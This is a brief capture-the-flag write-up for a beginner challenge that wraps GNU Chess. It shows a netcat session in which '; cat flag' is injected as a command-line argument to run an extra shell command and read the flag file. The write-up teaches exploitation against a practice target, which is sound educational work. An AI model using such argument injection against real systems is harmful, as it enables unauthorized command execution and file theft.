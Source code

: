 # NCEP_XQC

For this challenge, we are given a simple program that just runs GNU chess.
Right away we can see that it lets us input command line arguments! Maybe we can just do a simple commandline injection to cat the flag:

```
$ nc ctf.ropcity.com 31314
WELCOME TO THE NORWEGIAN COLLEGE OF ELITE PWN
Please enter your custom command line arguments, or just hit enter to begin your training: ; cat flag
executing command: /usr/games/gnuchess -g -m ; cat flag

GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : quit
osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}

finished executing command /usr/games/gnuchess -g -m ; cat flag
```

And we get the flag!  
`osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}`

Welp... Looks like that was it. A good beginner challenge!